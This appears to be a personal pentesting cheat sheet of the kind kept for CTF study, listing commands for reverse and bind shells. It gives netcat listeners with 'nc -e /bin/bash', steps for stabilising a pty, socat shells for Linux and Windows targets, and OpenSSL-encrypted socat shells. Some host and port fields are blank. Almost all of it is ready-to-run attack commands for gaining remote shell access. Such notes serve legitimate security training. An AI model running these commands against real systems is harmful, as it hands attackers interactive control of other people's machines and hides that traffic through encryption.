 # shells

Reverse shell - server sends you a shell and offers you a /bin/bash of sorts to run your commands  
Bind shell - server opens up a port and offers you a bash to run your input against that

## BASIC REVERSE/BIND SHELLS

`sudo nc -lvnp 443` - On the attacking machine  
`nc -e /bin/bash` - On the target

## STABILIZING NC SHELL

1. `python -c 'import pty;pty.spawn("/bin/bash")'`
2. `export TERM=xterm`
3. background your reverse shell using Ctrl+Z
4. `stty raw -echo; fg` - bring back foreground

## HOW TO USE VI / NANO ON REVERSE SHELL

1. run `stty -a` on your attacker machine - you will get some op that gives you numbers for rows and columns, say `rows 45; columns 115;`
2. in your shell, type `stty rows`, `stty cols`

## SOCAT BASIC SHELLS

The easiest way to think about socat is as a connector between two points - MuirlandOracle

reverse shells

1. On attacker machine - `socat TCP-L: -`
2. On Linux target - `socat TCP:: EXEC:"bash -li"`
3. On Windows target - `socat TCP:: EXEC:powershell.exe,pipes`

bind shells

1. on attacker machine - `socat TCP:: -`
2. on linux target - `socat TCP-L: EXEC:"bash -li"`
3. on windows target - `socat TCP-L: EXEC:powershell.exe,pipes`

socat linux only very stable tty shell - on linux attacker machine - ``socat TCP-L: FILE:`tty`,raw,echo=0``  
on linux target machine - `socat TCP:: EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

## SOCAT ENCRYPTED SHELLS

1. create a cert and key on attacker machine - `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
2. We then need to merge the two created files into a single `.pem` file - `cat shell.key shell.crt > shell.pem`

reverse shell listener - `socat OPENSSL-LISTEN:,cert=shell.pem,verify=0 -`  
on target machine - `socat OPENSSL::,verify=0 EXEC:/bin/bash`

if we want to do for a bind shell, just use the same listener command on target machine, and attach cmd.exe / bash to it

for eg: `socat OPENSSL-LISTEN:,cert=shell.pem,verify=0 -` - remove this dash at the end \(which previously connects listener and stdin\) and place `EXEC:/bin/bash` \(which connects listener and cmd.exe\)

socat very stable tty openssl listener  
on linux attacker machine - ``socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0``  
on linux target machine - `socat OPENSSL::,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

